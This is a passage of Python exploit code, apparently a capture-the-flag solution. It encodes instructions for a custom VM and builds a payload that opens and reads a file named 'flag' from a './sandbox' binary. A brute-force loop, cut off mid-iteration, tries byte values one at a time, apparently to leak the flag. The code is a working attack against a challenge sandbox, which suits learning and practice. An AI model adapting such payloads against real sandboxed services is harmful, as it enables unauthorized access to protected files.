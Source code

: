 ```python
    return p16(0x0090 | ((val & 0xf00) >> 8) | ((val & 0xff) << 8))

def and_rax_rbx():
    return p16(0x00a0)

def jnz_offval(val):
    return p16(0x00b0 | ((val & 0xf00) >> 8) | ((val & 0xff) << 8))

def jz_offval(val):
    return p16(0x00c0 | ((val & 0xf00) >> 8) | ((val & 0xff) << 8))

def jmp_offval(val):
    return p16(0x00d0 | ((val & 0xf00) >> 8) | ((val & 0xff) << 8))

def shl_rax_val(val):
    return p16(0x00e0 | ((val & 0xf00) >> 8) | ((val & 0xff) << 8))

def syscall(val):
    return p16(0x00f0 | ((val & 0xf00) >> 8) | ((val & 0xff) << 8))

"""
(dword offset, total 0x14(5 register))
| 0  |  1  |  2  |  3  |  4  |
 rax   rbx   rip   rsp  logop
"""

# rax = open(stack + rax, 0)
def open_syscall(fn):
    sc = b""
    fn = fn.encode()[::-1].ljust(((len(fn) // 4) + 1) * 4, b'\x00') # alignment 4
    for i in range(0, len(fn), 4):
        fn_part = fn[i:i+4]
        sc += mov_rax_rsp()
        sc += mov_rax_val(fn_part[0])
        for j in range(1, 4):
            sc += shl_rax_val(8)
            sc += add_rax_val(fn_part[j])
        sc += push_rax()
    sc += syscall(2)
    return sc

# read(rax, stack + rsp, rbx)
def read_syscall(fd, size):
    sc = b""
    sc += mov_rax_val(fd)
    sc += mov_rbx_val(size)
    sc += syscall(1)
    return sc

# close(rax)
def close_syscall():
    return syscall(3)

def exit_syscall():
    return syscall(0)

flag = b""

while len(flag) <= 20:
    for curr_byte in range(0x100):
        r = process('./sandbox')
        sc = b""
        sc += open_syscall("flag")
```